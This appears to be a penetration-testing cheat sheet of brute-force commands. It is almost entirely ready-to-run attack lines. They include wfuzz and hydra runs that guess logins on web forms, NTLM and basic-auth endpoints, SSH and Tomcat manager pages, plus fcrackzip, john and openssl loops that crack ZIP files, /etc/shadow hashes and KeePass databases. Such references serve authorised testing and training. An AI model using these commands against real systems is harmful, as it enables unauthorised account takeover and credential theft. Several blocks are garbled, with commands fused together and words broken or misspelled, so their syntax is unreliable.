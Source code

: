 # **Brute Force** #

## **Weak Credentials** ##

### **HTTP Brute Force** ###

* **wfuzz POST**
```
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://ip/admin/index.php
```

* **hydra POST**
```
hydra ip -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20
```

* **wfuzz NTLM**
```
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https:///api
```

* **wfuzz Basic Auth through Proxy**
```
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https:///api/v1/
```

**Password Cracking**

* **zip**
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

* **/etc/shadow**

```
unshadow passwd shadow > passwordsjohn --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

* **keepass**

```
keepass2john /root/Desktop/NewDatabase.kdb > filejohn -incremental:alpha -format=keepass file
```

* **Bruteforce Salted**

```
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
```

```
openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends
```

* **Port 22**

```
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh​
```

* **Hydra for login bypass**

```
Hydra for login bypass:hydra http://XXXX http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txthrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/htmlhydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://ip:8080/manager/html
```

* **Zip file Bruteforce**

```
 fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup.zip​
```

* **John**

```
 john --wordlist=/usr/share/wordlists/rockyou.txt keepass-hash.txt​
```
